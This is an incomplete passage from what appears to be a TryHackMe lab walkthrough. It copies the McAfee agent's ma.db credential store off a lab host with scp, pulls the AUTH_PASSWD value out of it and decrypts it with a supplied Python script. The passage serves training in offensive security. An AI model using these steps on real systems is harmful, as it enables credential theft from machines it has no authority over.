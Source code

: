 - There different software which use NTLM authentication to access data and run  
- In this room we will see McAfee.
- McAfee configuration file credentials can be found in ma.db (`C:/ProgramData/McAfee/Agent/DB/ma.db`)
- Downloaded this file from remote machine to local machine

```console
❯ scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@thmjmp1.za.tryhackme.com's password:
ma.db                                                                                                                                                100%  118KB 142.9KB/s   00:00
```
- Opened this file with `sqlitebrowser`
- Found `AUTH_PASSWD` in Browse Data --> AGENT_REPOSITORIES.
- Saved this hash to machine.
- Used python script (`mcafeesitelistpwddecryption`) provided by the room author.

```
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```

- Executed this script
-
